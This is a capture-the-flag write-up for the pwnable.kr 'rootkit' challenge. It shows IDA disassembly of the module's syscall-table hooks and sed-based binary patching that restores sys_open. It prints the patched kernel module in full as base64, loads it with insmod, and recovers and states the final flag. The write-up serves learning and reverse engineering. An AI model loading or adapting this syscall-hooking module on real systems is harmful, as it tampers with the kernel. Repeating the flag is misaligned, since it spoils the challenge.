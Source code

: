 # Grotesque Rootkit Writeup :)

## [+] first change kernel moudle signture using sed, 'rootkit' signture already loaded:

	$ sed -i 's/rootkit/rootkik/g' rootkit.ko

## [+] on IDA in initmoudle func, I found the hook:
	mov     eax, ds:0C15FA034h  <-
	mov     ebp, esp
	mov     ds:sct, 0C15FA020h
	mov     ds:sys_open, eax    <- 
	mov     eax, ds:0C1158DB0h 
	mov     ds:sys_openat, eax
	mov     eax, ds:0C15FA16Ch
	mov     ds:sys_symlink, eax
	mov     eax, ds:0C15FA4E0h
	mov     ds:sys_symlinkat, eax
	mov     eax, ds:0C15FA044h
	mov     ds:sys_link, eax
	mov     eax, ds:0C15FA4DCh
	mov     ds:sys_linkat, eax
	mov     eax, ds:0C15FA0B8h
	mov     ds:sys_rename, eax
	mov     eax, ds:0C15FA4D8h
	mov     ds:sys_renameat, eax

## [+] replace the syscall hook for sys_open (thats what needed for cat command, used strace to check) using sed by changing the instraction so the address in ax won't be relative to ds:


	 syscall hooked func address -> sys_open = MEMORY[0xC15FA034];

## [+] hooked instraction in x86 asm:

	In [12]: asm("mov eax, ds:0xC15FA034")
	Out[12]: b'\xa14\xa0_\xc1' -> '\xc1\x5f\xa0\x34\xa1' -> '\xa1\x34\xa0\x5f\xc1'


## [+] view original address of the syscall sys_open:
	$ cat /proc/kallsyms | grep sys_open
	   c106c7c0 W compat_sys_open_by_handle_at
	   c1158bc0 T do_sys_open
	-> c1158d70 T sys_open <-
	   c1158db0 T sys_openat

## [+] original sys_open func address -> 0xc1158d70, therefore we want:

	In [13]: asm("mov eax, 0xc1158d70")
	Out[13]: b'\xb8p\x8d\x15\xc1' -> '\xc1\x15\x8d\x70\xb8' -> '\xb8\x70\x8d\x15\xc1'


## [+] final step for switching the instractions:
	sed -i 's/\xa1\x34\xa0\x5f\xc1/\xb8\x70\x8d\x15\xc1/g' rootkit.ko

## replace 'flag' with something else
	sed -i 's/flag/kaki/g' rootkit.ko

# convert back to base64 and copy to host
	$ base64 rootkit.ko
	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
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
	AAAAAAAAAABHQ0M6IChVYnVudHUvTGluYXJvIDQuNi4zLTF1YnVudHU1KSA0LjYuMwAAR0NDOiAo
	VWJ1bnR1L0xpbmFybyA0LjYuMy0xdWJ1bnR1NSkgNC42LjMAAC5zeW10YWIALnN0cnRhYgAuc2hz
	dHJ0YWIALm5vdGUuZ251LmJ1aWxkLWlkAC5yZWwudGV4dAAucmVsLmluaXQudGV4dAAuZXhpdC50
	ZXh0AC5yb2RhdGEuc3RyMS4xAC5yZWxfX21jb3VudF9sb2MALm1vZGluZm8AX192ZXJzaW9ucwAu
	ZGF0YQAucmVsLmdudS5saW5rb25jZS50aGlzX21vZHVsZQAuYnNzAC5jb21tZW50AC5ub3RlLkdO
	VS1zdGFjawAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAbAAAABwAA
	AAIAAAAAAAAANAAAACQAAAAAAAAAAAAAAAQAAAAAAAAAMgAAAAEAAAAGAAAAAAAAAGAAAADQAgAA
	AAAAAAAAAAAQAAAAAAAAAC4AAAAJAAAAAAAAAAAAAAAUEAAAiAEAABMAAAACAAAABAAAAAgAAAA8
	AAAAAQAAAAYAAAAAAAAAMAMAAOUAAAAAAAAAAAAAAAEAAAAAAAAAOAAAAAkAAAAAAAAAAAAAAJwR
	AADQAAAAEwAAAAQAAAAEAAAACAAAAEcAAAABAAAABgAAAAAAAAAVBAAABQAAAAAAAAAAAAAAAQAA
	AAAAAABSAAAAAQAAADIAAAAAAAAAGgQAADMAAAAAAAAAAAAAAAEAAAABAAAAZQAAAAEAAAACAAAA
	AAAAAFAEAAAkAAAAAAAAAAAAAAAEAAAAAAAAAGEAAAAJAAAAAAAAAAAAAABsEgAASAAAABMAAAAI
	AAAABAAAAAgAAAByAAAAAQAAAAIAAAAAAAAAdAQAAFsAAAAAAAAAAAAAAAEAAAAAAAAAewAAAAEA
	AAACAAAAAAAAAOAEAAAAAQAAAAAAAAAAAAAgAAAAAAAAAIYAAAABAAAAAwAAAAAAAADgBQAAAAAA
	AAAAAAAAAAAABAAAAAAAAACQAAAAAQAAAAMAAAAAAAAA4AUAAIABAAAAAAAAAAAAACAAAAAAAAAA
	jAAAAAkAAAAAAAAAAAAAALQSAAAQAAAAEwAAAA0AAAAEAAAACAAAAKoAAAAIAAAAAwAAAAAAAABg
	BwAAJAAAAAAAAAAAAAAABAAAAAAAAACvAAAAAQAAADAAAAAAAAAAYAcAAFYAAAAAAAAAAAAAAAEA
	AAABAAAAuAAAAAEAAAAAAAAAAAAAALYHAAAAAAAAAAAAAAAAAAABAAAAAAAAABEAAAADAAAAAAAA
	AAAAAAC2BwAAyAAAAAAAAAAAAAAAAQAAAAAAAAABAAAAAgAAAAAAAAAAAAAAyAsAAMACAAAUAAAA
	FAAAAAQAAAAQAAAACQAAAAMAAAAAAAAAAAAAAIgOAACJAQAAAAAAAAAAAAABAAAAAAAAAAAAAAAA
	AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADAAIAAAAAAAAAAAAAAAAAAwAHAAEAAAAAAAAA5QAAAAIA
	BAAMAAAAAAAAAAUAAAACAAYAFwAAAAAAAAAjAAAAAQAKACoAAAAjAAAACQAAAAEACgA7AAAAAAAA
	AAABAAABAAsASAAAACwAAAAvAAAAAQAKAAAAAAAAAAAAAAAAAAMAAQAAAAAAAAAAAAAAAAADAAQA
	AAAAAAAAAAAAAAAAAwAGAAAAAAAAAAAAAAAAAAMACAAAAAAAAAAAAAAAAAADAAoAAAAAAAAAAAAA
	AAAAAwALAAAAAAAAAAAAAAAAAAMADAAAAAAAAAAAAAAAAAADAA0AAAAAAAAAAAAAAAAAAwAPAAAA
	AAAAAAAAAAAAAAMAEAAAAAAAAAAAAAAAAAADABEAWAAAACAAAAAEAAAAEQAPAFwAAAAAAAAAgAEA
	ABEADQBqAAAAAAAAAAUAAAASAAYAeQAAAAAAAAAEAAAAEQAPAIYAAAAAAAAA5QAAABIABACSAAAA
	AAAAAE0AAAASAAIApgAAAAwAAAAEAAAAEQAPAK8AAAAcAAAABAAAABEADwC4AAAA8AEAAFQAAAAS
	AAIAygAAABgAAAAEAAAAEQAPANUAAAAAAAAAAAAAABAAAADcAAAAUAIAAE0AAAASAAIA7AAAAAAA
	AAAAAAAAEAAAAPMAAAAAAAAAAAAAABAAAAD6AAAAoAAAAFQAAAASAAIADAEAAKACAAAvAAAAEgAC
	AA8BAAAQAAAABAAAABEADwAdAQAACAAAAAQAAAARAA8AKAEAAFAAAABGAAAAEgACADoBAACgAQAA
	RgAAABIAAgBNAQAAUAEAAE0AAAASAAIAYgEAAAQAAAAEAAAAEQAPAG0BAAAAAQAARgAAABIAAgB9
	AQAAFAAAAAQAAAARAA8AAGluaXRtb2R1bGUAZXhpdG1vZHVsZQBfX21vZF9zcmN2ZXJzaW9uMzIA
	X19tb2R1bGVfZGVwZW5kcwBfX19fdmVyc2lvbnMAX19tb2RfdmVybWFnaWM1AHNjdABfX3RoaXNf
	bW9kdWxlAGNsZWFudXBfbW9kdWxlAHN5c19yZW5hbWVhdABpbml0X21vZHVsZQBzeXNfcmVuYW1l
	YXRfaG9va2VkAHN5c19saW5rAHN5c19vcGVuAHN5c19vcGVuYXRfaG9va2VkAHN5c19vcGVuYXQA
	c3Ryc3RyAHN5c19vcGVuX2hvb2tlZABtY291bnQAcHJpbnRrAHN5c19saW5rYXRfaG9va2VkAHdw
	AHN5c19zeW1saW5rYXQAc3lzX2xpbmthdABzeXNfcmVuYW1lX2hvb2tlZABzeXNfc3ltbGlua19o
	b29rZWQAc3lzX3N5bWxpbmthdF9ob29rZWQAc3lzX3JlbmFtZQBzeXNfbGlua19ob29rZWQAc3lz
	X3N5bWxpbmsAAAAACAAAAAIgAAANAAAAAQIAABcAAAACHgAAMgAAAAEXAAA/AAAAAQIAAEQAAAAC
	IQAAWAAAAAIgAABdAAAAAQIAAGcAAAACHgAAewAAAAEpAACIAAAAAQIAAI0AAAACIQAAqAAAAAIg
	AACtAAAAAQIAALcAAAACHgAA2QAAAAElAADmAAAAAQIAAOsAAAACIQAACAEAAAIgAAANAQAAAQIA
	ABcBAAACHgAAKwEAAAEaAAA4AQAAAQIAAD0BAAACIQAAWAEAAAIgAABdAQAAAQIAAGcBAAACHgAA
	ggEAAAEkAACPAQAAAQIAAJQBAAACIQAAqAEAAAIgAACtAQAAAQIAALcBAAACHgAAywEAAAErAADY
	AQAAAQIAAN0BAAACIQAA+AEAAAIgAAD9AQAAAQIAAAcCAAACHgAAKQIAAAEdAAA2AgAAAQIAADsC
	AAACIQAAWAIAAAIgAABdAgAAAQIAAGcCAAACHgAAggIAAAEbAACPAgAAAQIAAJQCAAACIQAApAIA
	AAIgAAAKAAAAARQAABMAAAABGwAAHQAAAAEdAAAnAAAAASsAADEAAAABJAAAOwAAAAEaAABFAAAA
	ASUAAE8AAAABKQAAWQAAAAEXAABgAAAAAiMAAGUAAAABFAAAbAAAAAEfAAB2AAAAARwAAIAAAAAB
	JwAAigAAAAEoAACRAAAAASoAAJsAAAABIgAApQAAAAEmAACvAAAAARkAALkAAAACIwAAvgAAAAEV
	AADEAAAAARUAANEAAAABFQAA1QAAAAEVAADbAAAAARUAAN8AAAABFQAAAAAAAAEBAAAEAAAAAQEA
	AAgAAAABAQAADAAAAAEBAAAQAAAAAQEAABQAAAABAQAAGAAAAAEBAAAcAAAAAQEAACAAAAABAQAA
	2AAAAAEYAAB4AQAAARYAAA==


# on rootkit@pwnable.kr :
	$ vi b64 (paste base64 code)
	$ base64 -d b64 > kaki.ko
	$ insmod kaki.ko
	$ cat flag
	�m�U��1
	�@��s�m�fv7+x;s��H��"��5�E�B��y
								3ś~l��1-R�Kߩ���u�c2�DM��8ݺ�����9��)������Kyk���rͳ�J���t��nX�C�M(/ # 


###  		  oh man wtf is this -_-

## [+] the list of commands in busybox doesnt,include binwalk or something likethat, so i checked the file firsts bytes to search the signture:
	$ hexdump -C flag
	00000000  1f 8b 08 00 c7 6d b2 55  00 03 ed cf 31 0a c2 40  |.....m.U....1..@|
	00000010  10 85 e1 a9 73 8a 6d ed  66 76 37 2b 78 05 3b 73  |....s.m.fv7+x.;s|
	00000020  82 14 89 48 02 81 b8 22  de de 35 a5 45 ac 42 10  |...H..."..5.E.B.|
	00000030  fe af 79 0c 33 c5 9b 7e  6c af b2 31 2d 52 8c 4b  |..y.3..~l..1-R.K|
	00000040  16 df a9 1a bc 98 0f 75  b0 63 32 9f 44 4d a3 99  |.......u.c2.DM..|
	00000050  38 dd ba d8 c7 e3 9e db  d9 39 99 a7 29 af dd fd  |8........9..)...|
	00000060  da ff a9 4b 79 6b b8 e5  fc 72 cd b3 eb 4a 9c 97  |...Kyk...r...J..|
	00000070  e1 74 a8 f6 6e 06 00 00  00 00 00 00 00 00 00 00  |.t..n...........|
	00000080  00 00 00 58 f3 06 43 cc  4d 0e 00 28 00 00        |...X..C.M..(..|
	0000008e

### found out its a GZIP compressed file (gz tar.gz )
## full list on wikipedia: https://en.wikipedia.org/wiki/List_of_file_signatures (very helpful tbh, binwalk does the same.)

## [+] find a decompressor for gzip files:
	agam@agam:~/Desktop/pwnable/rootkit$ man -k gzip
	gzip (1)             - compress or expand files

# decompress and submit ;)
	$ cp flag flagl.gz
	$ gzip -d flagl.gz
	$ cat flagl
	flag0000644000000000000000000000003212353176126010411 0ustar  rootrootRootkitty Sweety Kitty :)

# therefore, the final flag is: 
### Rootkitty Sweety Kitty :)





